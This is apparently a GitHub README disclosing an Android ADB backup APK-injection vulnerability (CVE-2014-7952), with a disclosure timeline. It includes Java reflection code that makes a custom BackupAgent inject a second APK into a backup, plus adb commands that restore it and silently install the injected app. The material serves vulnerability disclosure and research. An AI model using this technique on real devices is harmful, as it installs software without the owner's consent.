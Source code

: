 # ADB-Backup-APK-Injection
Android ADB backup APK Injection POC. Discovered by Imre Rad (SEARCH-LAB Ltd.), Hungary.

What is ADB backup/restore?
---------------------------
The Android Operating System offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a BackupAgent (http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent's does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application.
The Backup Manager can be exploited through simple reflection:

```
	  String packageName = "com.searchlab.wifitest"; // getPackageName();
	  
	  Method backupToTar;
	  Method getData;
		try {
			Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");

			Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
			
			backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
			backupToTar.setAccessible(true);		
			
			getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
			getData.setAccessible(true);
			Object backupData = getData.invoke(data);
			
			 
			backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
			backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
		    
			Log.v("MYBACKUP", "backuptotar invoked!");
			
			/*
			FullBackup.backupToTar(getPackageName(), domain, null, rootpath, filePath, output.getData());
			Class<?> hs = Class.forName("java.util.HashSet");
			m = BackupAgent.class.getDeclaredMethod("fullBackupFileTree", String.class, String.class, String.class, hs, FullBackupDataOutput.class);
	      //m.invoke(d);//exception java.lang.IllegalAccessException
	      m.setAccessible(true);//Abracadabra 
	      m.invoke(this, packageName, "", "/data/tmp/evilApk", null, data);//now its ok
	      */
		} catch (Exception e) {
			// TODO Auto-generated catch block
			e.printStackTrace();
		}
```

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):
![ADB Backup Injection, custom BackupAgent](/relative/path/to/img.jpg?raw=true "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Step 5: Verify that Wifi Test application was indeed installed:
![ADB Backup Injection, injected Application](/relative/path/to/img.jpg?raw=true "ADB Backup Injection, injected Application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today, 2015-07-08, all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting more time for further investigation, but the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android security team
2014-07-28: Google refused to treat the issue as a potential threat, but requested to hold off publishing it
2014-10-15: Google answered that it did not get fixed in the L release and kept requesting to hold off publishing it
2015-06-02: Google promised further info in a few days, but it never arrived

